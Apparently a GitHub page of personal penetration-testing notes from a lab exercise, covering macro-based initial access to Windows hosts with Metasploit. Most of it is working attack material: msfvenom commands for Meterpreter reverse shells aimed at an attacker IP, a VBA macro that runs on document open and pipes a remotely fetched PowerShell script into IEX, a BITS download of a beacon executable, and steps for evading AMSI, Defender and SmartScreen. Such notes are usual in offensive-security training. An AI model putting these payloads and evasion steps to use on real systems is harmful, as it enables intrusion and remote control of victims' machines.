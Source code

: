 ## Metasploit framework notes

#### Auto Run Script

```
set AutoRunScript migrate -n explorer.exe
```

## msf encoder

```
set enablestageencoding true
set stageencoder x86/xor_dynamic
```

### Ch1 Notes

### (FAILED)Initial access failed method 1-triggle asmi bypass, add marco payload xor 
1. Identify the web port on 192.168.49.121  allowing file upload. Upload a doc file which allow which allow [ping marco](/msf/ping.vba) command to verify the target allowing code execution though marco 

2. Create stageless tcp raw payload 
```
sudo msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.49.141  LPORT=443 -f raw -o tcp.bin
```
3. Patch the payload
- **encode the payload with custom wrapper to create exe to bypass defender**
- **append microsoft binary meta data to the payload to bypass smart screen**

4. Create malicious marco with amsi bypass and download our malicou payload to remote host, 
- encode the marco content with powershell  [marco  xor Payload encoder](/msf/payloadencoder.ps)
- [test.txt](/msf/test.txt) contains amsi powershell patching and web invoke request to download our encoded and digitally signed payload
- Craft the [marco](/msf/asmibypasswithxor.vba) and attached to a doc file
5. No call back, no download log, maybe the powershell is not allowed??

### (FAILED)Initial access failed method 2-embed vba shell code in the doc file

1. Create x86 staged payload
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. embed into the [macilous marco](/msf/shellcode.vba) using VirtualAlloc, RtlMoveMemory, CreateThread method
3. lauch msf6

```
set payload windows/meterpreter/reverse_https
set enablestageencoding true
set stageencoder x86/xor_dynamic
run -j
```
4. Not working... maybe the shell code get flaged?

### (FAILED)Initial access failed method 3-embed powershell download cradle to execute payload
```
Sub MyMacro()
    Dim str As String
    str = "powershell (New-Object System.Net.WebClient).DownloadString('http://192.168.49.141/run.ps1') | IEX"
    Shell str, vbHide
End Sub
Sub Document_Open()
    MyMacro
End Sub
Sub AutoOpen()
    MyMacro
End Sub

```

#### shell downloadn works so far

```
 Dim str As String
    str = "powershell -c Start-bitstransfer -source http://192.168.49.141:80/newbeacon.exe -destination C:\\Windows\\Tasks\\newbeacon.exe"
    Shell str, vbHide
```
#### Worksss!! Marco Initial access works
1. Create [shell code runner](/msf/shellrunner.vba) VBA Marco using CreateThread-> execute the shell code, VirtualAlloc-> allocate memeory space for shell code, RtlMoveMemory->copy shell code into memory space

the staged VBA shell code can be generated from msfvenom command 
```
msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.141 LPORT=443 EXITFUNC=thread -f vbapplication
```

2. Copy VBA shell code into the [C# caesar cipher](/msf/caesar_cipher.cs) to encode the shell code, compile, run the program and copy output back to VBA marco 
3. Set up the msf c2
```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_https
set lhost yourip
set lport 443
set enablestageencoding true
set stageencoder x86/xor_dynamic
set AutoRunScript migrate -n explorer.exe
run -j
```

####Get into 192.168.141.122 machine, hostname: client

Domain Admins: Administrator and pete

scaning#

sudo nmap -A -Pn 192.168.120.130-132
